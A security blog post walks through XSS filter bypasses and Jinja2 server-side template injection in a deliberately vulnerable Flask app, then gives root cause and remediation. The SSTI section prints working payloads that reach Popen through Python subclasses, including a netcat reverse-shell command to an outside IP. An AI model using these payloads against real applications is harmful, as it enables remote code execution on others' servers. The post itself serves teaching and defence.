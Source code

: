 .. title: XSS and SSTI in Flask
.. slug: xss-ssti-in-flask
.. date: 2022-02-15 21:40:41 UTC-05:00
.. tags:
.. category: hacking
.. link:
.. description:
.. type: text

Introduction
=============

According to the project's home page,

  Flask is a lightweight WSGI web application framework. It is designed to make getting started quick and easy, with the ability to scale up to complex applications. It began as a simple wrapper around Werkzeug and Jinja and has become one of the most popular Python web application frameworks.

Django sits at the other end of the python web service spectrum.
Each has their own advantages and disadvantages.
If I had to pick a downside for Flask, it is that can be easy to introduce unintentional vulnerabilities.
This is **not** a problem with Flask itself, but is a result of improper sanitizing of user input.

This blog post will explore two vulnerabilities in an intentionally vulnerable flask app.

.. TEASER_END

I recently saw this code posted on twitter as a "spot the vulnerability" challenge.
I wanted to explore and do a more in depth explanation.

XSS
===

For example, take the following code:

.. gist:: 4c111b9adce0c603e76bc0f43f628216

At first glance, this seems relatively ok.
The first thing I usually look for is whether the filter function replaces all instances of the bad strings.
This function does correctly replace strings recursively, so that's good.
Unfortunately, the script does fail to recognize capitalized tags, such as ``Script``.
There is one problem, and that is the inability to add the closing bracket ``>``.
That means the standard ``<script>alert(1)</script>`` is not going to work.
Fortunately, this can be bypassed by using a different ntml entity.

::
  <img src=1 onerror=print()<!--
  <img src=1 onerror=al\u0065rt(1)<!--

Both of these work in Firefox.
So, what's happening here?
The first example, ``print`` is not one of the disallowed functions.
This should open the print page dialog and is used to validate that the onerror function is fired.
The second example is a unicode escape for the standard alert function.
I believe this works because the ``\u0035`` is not converted to ``e`` until later on in the request lifecycle.

SSTI
====

Now that XSS is out of the way, the really critical part of this code is that there is no Server Side Template Injection (SSTI) protection.
Below is the full code for the app, which is run using ``python vulnerable-flask-app.py``

.. gist:: 857af16801958f370492a6f4caeaaa83

Flask is not the only web application framework that can have SSTI vulnerabilities.
Things like node.js can have SSTI bugs.

On the back end, flask is rendering HTML using the Jinja2 template engine.
The template engine syntax is very simple, and relies on curly braces (much like python fstrings).
An example is shown here: `jinja documentation <https://jinja2docs.readthedocs.io/en/stable/>`_

If an attacker can controls input the template that is rendered by the template engine, they may be able to execute code.
First, test with a simple string ``{{7*7}}`` in the input field.
If the result that is shown is 49, then there is a chance that RCE is possible.
Technically, the fact that it computes that mathematical expression, means that remote code has been executed.
However, just being able to multiply two numbers is not particularly helpful.

.. image:: /images/xss_ssti/49.png


Now I need to see if I can get into other python modules by exploring the Method Resolution Order.
First, start with an empty string ``{{''.__class__.__base__}}``
This displays the familiar python class object syntax, ``<class 'str'>``
Now, explore the base class ``{{''.__class__.__base__}}``, which shows ``<class 'object'>``
This gets to the top level python class 'object', so now go back down the tree.

``name={{''.__class__.__base__.__subclasses__()}}`` produces the following:

.. image:: /images/xss_ssti/subclasses.png

At this stage, the best thing to do is to copy that output into a text editor, and conver the instances of ``, <class`` to a newline.
What is needed, is the array index of the module that is helpful to run meaningful code, such as the ``os.Popen`` function to spawn a process.
Popen is on line 231, and is the list index 230 (python is 0 indexed).

Therefore, pointing the browser to
``localhost:8080?name={{''.__class__.__base__.__subclasses__()[231]('whoami', shell=True, stdout=-1).communicate()}}``
will show the output of the whoami command in the browser.
A reverse shell can be obtained by using the following parameter:
``{{''.__class__.__base__.__subclasses__()[231]('nc 192.168.1.5 1337', shell=True, stdout=-1).communicate()}}``

Most of that is pretty self explanatory, but there are a few things I wasn't familiar with before researching this.
``shell=True`` is an argument to Popen() that tells it to execute in a shell.
I admit I don't fully understand what ``stdout=-1`` does, but otherwise the output will go to STDOUT on the server.
Finally, ``communicate()`` gets the output from the shell that was spawned to run the command.

To state the obvious, is very bad.

Root cause analysis
===================

The root cause of this vulnerability exists in the lines 28-43 of the gist posted above.
By default, Flask automatically configures jinja2 to escape html strings unless the developer explicitly configures it otherwise.
In this example, the string format utility is used rather than allowing jinja2 to do its magic.

Remediation
===========

The remediation for both of these is extremely simple.
User input shouldn't be trusted anywhere, so it really shouldn't matter if a user inputs html entities or sql statements, or anything else.
However, if they really do need to be filtered out, the input text should be converted to lowercase for blacklist matching.
Ultimately, simply using the template engine correctly is the best and easiest method.

My proposed solution is located here:

.. gist:: cd649f0dcd0a63c8defe8c13d0cdac32

Lastly, all the code is available on `Github <https://github.com/haicenhacks/vulnerable-flask-app>`_
